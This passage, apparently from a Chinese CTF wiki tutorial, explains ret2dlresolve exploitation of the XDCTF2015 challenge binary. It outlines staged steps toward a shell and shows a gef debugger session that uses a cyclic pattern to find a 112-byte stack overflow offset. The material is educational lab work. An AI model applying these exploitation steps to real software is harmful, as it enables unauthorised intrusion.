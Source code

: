 在下面的讲解过程中，我会按照以两种不同的方法来进行讲解。其中第一种方法比较麻烦，但是可以仔细理解ret2dlresolve的原理，第二种方法则是直接使用已有的工具，相对容易一点。

1. 利用正常的代码来使用该技巧从而获取shell。

   stage 1 测试控制程序执行write函数的效果。

   stage 2 测试控制程序执行dl_resolve函数，并且相应参数指向正常write函数的plt时的执行效果。

   stage 3 测试控制程序执行dl_resolve函数，并且相应参数指向伪造的write函数的plt时的执行效果。

2. 利用roputils中已经集成好的工具来实现攻击，从而获取shell。

### 正常攻击

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

```shell
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main 
Welcome to XDCTF2015~!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x000000c9
$ebx   : 0x00000000
$ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x00000100
$esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
$eip   : 0x62616164 ("daab"?)
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcce0', 'l8']
8
0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"	 ← $esp
0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
```